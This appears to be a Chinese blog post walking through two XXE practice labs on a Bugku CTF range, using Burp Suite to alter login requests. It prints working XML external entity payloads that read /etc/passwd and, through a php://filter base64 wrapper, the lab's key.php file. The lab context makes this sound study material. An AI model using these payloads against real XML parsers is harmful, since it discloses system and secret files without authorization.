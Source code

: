 ```yaml
---
layout: post
title: 'XXE'
subtitle: 'XXE靶场练习'
date: 2021-05-26
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 bugku刷题
---
```

### XXE靶场一
> 开启靶场并随便输入值登录
![](https://1024861435.github.io/assets/img/XXE3.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE4.png)

> 发送到repeater模块修改发送包

  把key.php的内容进行base64编码并把值给test，然后&test 放回值

  <!DOCTYPE xxe[

<!ENTITY test SYSTEM

"php://filter/convert.base64-encode/resource=key.php">

]>
![](https://1024861435.github.io/assets/img/XXE1.png)

> 把放回的值进行base64解码
![](https://1024861435.github.io/assets/img/XXE2.png)

### XXE靶场二


> 开启靶场并随便输入值登录
> ![](https://1024861435.github.io/assets/img/XXE5.png)

> 开启burpsuite抓包
![](https://1024861435.github.io/assets/img/XXE7.png)

> 发送到repeater模块修改发送包，发现可以读取/etc/passwd文件的内容

 
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "file:///etc/passwd">

]>
![](https://1024861435.github.io/assets/img/XXE6.png)

>基于之前靶场存放key的方式，推测有key.php的文件
  
于是试着改xxe读该文件

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE ANY[

<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=key.php">

]>

发现读出内容
![](https://1024861435.github.io/assets/img/XXE8.png)

>把内容进行base64解码得到key

![](https://1024861435.github.io/assets/img/XXE9.png)
